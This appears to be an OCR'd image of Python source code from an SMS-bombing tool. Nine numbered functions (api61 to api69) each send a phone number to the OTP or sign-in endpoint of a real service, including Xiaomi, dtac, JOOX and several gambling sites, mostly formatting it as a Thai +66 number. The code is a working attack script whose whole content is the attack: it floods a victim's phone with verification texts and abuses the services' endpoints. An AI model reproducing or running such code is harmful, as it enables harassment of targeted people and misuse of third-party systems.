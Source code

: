     

def api61(phone):

    post("https://globalapi.pointspot.co/papi/oauth2/signinWithPhone", data={"phoneNumber": f"+66{phone[1:]}"})

    

def api62(phone):

    get(f"https://hdmall.co.th/phone_verifications?express_sign_in=1&mobile={phone}")

    

def api63(phone):

    post("https://asha168vip.com/_ajax_/request-otp", data={"request_otp[phoneNumber]":phone,"request_otp[termAndCondition]": "1","request_otp[_token]": "1642443743"})

    

def api64(phone):

    post("https://account.xiaomi.com/pass/sendPhoneRegTicket", data=f"region=US&phone=%2B66{phone[1:]}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "captchaToken=mXYXs+xvEHAZdhKnXK1XlopRcisSn05D6xhZU+uL3ghvh1Yf/4rYTExH+2xl+yZv;deviceId=wb_aca09552-fd37-4204-9d7a-20045de5c5bf;uLocale=en"})

    

def api65(phone):

    post("https://gamingnation.dtac.co.th/api/otp/generate", data={"template":"register","phone_no":phone},headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    

def api66(phone):

    post("https://www.aurora.co.th/signin/otp_chk", data=f"mobile={phone}&type_otp=3",headers={"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"})

    

def api67(phone):

    get(f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=66{phone[1:]}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2")

    

def api68(phone):

    post("http://716081.com/wap/user/sendPhoneMsg", json={"uri":"/user/sendPhoneMsg","token":"","paramData":{"phoneVerifyType":0,"phoneNumber":f"66{phone[1:]}","siteCode":"intqa"}}).text

    

def api69(phone):

    post("https://login.928royal.com/api/APISendOTP.php", data=f"mobileNumber=0{phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8"})

    
